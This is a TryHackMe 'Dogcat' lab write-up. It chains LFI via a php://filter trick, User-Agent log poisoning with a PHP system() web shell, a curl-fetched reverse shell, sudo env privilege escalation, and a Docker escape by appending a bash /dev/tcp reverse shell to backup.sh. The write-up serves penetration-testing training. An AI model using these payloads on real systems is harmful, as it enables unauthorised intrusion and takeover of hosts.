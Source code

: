 ```yaml
---
layout: post
title: Dogcat
categories: [Tryhackme, Medium-THM]
tags: [LFI, RCE, SUID]
image: https://i.ibb.co/0XX1s2Q/DogCat.png
---
```


Hello guys and welcome to yet another Tryhackme writeup. Today we will be handling a medium room which is accessible [here](https://tryhackme.com/room/dogcat).

Well the methodology is quite similar to the Archangel methodology with quite a twist. Let's begin.

## ACCESSING THE WEBPAGE

So I ran an NMAP scan but that was not so productive, so I went directly into the site. 

First we see that the site has two buttons which when we click on dog for example, we get a picture of a dog.
![](https://i.ibb.co/1K4zM53/dog.png)

Looking closely at our URL we see that it is using the view paramater. Well that is interesting. Let us try and traverse that, using the **php://filter/convert.base64-encode/resource=./dog/../index**. 

![](https://i.ibb.co/0mQn4pH/base64filter.png)

We can then see a base64 code on there. Let us decode it.

![](https://i.ibb.co/JH3p0rm/base64decode.png)

We get to see some php code which when we look closely at the filters we see that **ext** can be used to remove the .php which is automatically added at the end of the URL. 

## ACCESS LOGS

Let us use this parameter to view the access logs. 

![](https://i.ibb.co/gM1tmZP/accesslog.png)

Success! Next we are going to try and do some poisoning on the User-Agent using **<?php system($_GET['cmd']);?>**. 

If you are not familiar on how to do that check the Archangel writeup.  

Next let us try and run a command using **&cmd=whoami**

![](https://i.ibb.co/x12dj5X/whoami.png)

We can see that we are www-data.

## REVERSE SHELL
Now we are going to try and get a reverse shell. We can get one from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Make sure to make the necessary changes to the ip and port.

Next we are gonna run a python server on our machine using **python -m http.server 80**. Then run **&cmd= curl -o revshell.php ip/revshell.php**. 

Using wget was not so successfull. We then should check our python server for a 200 status code.
With that done we can run our listener on our machine and run **&cmd= php revshell.php**, then check back on our machine for a connection.

![](https://i.ibb.co/t2Fx0MG/revshell.png)

Smooth!

## ROOT
Next we are gonna run **sudo -l** which checks the SUID capabilities. 

![](https://i.ibb.co/LpBsvj2/sudo.png)

Well we see that www-data can run the command as root. So looking at [GTFO bins](https://gtfobins.github.io/) we can see that we can exploit this by using **sudo env /bin/sh**

And we are root. 
![](https://i.ibb.co/VV2LmmZ/root.png)

## ESCAPING DOCKER

This was not straight forward since we are supposed to look for the last flag outside the container. But it is not that hard.

As we are moving around we see a file backup.sh which sort of connects to the Host and the container. We can exploit this by running the following command.

**echo "bash -i >& /dev/tcp/ip/port 0>&1" >> backup.sh**

Then start up a listener on your machine and success we are in the host.

![](https://i.ibb.co/qDSmNyk/container.png)

## RESOURCES 

[BASH FOR BEGINNERS](https://www.tldp.org/LDP/Bash-Beginners-Guide/html/)
[PHP TRICKS](https://devansh.xyz/ctfs/2021/09/11/php-tricks.html)

Be sure to read the following articles for much better understanding. Happy hacking :)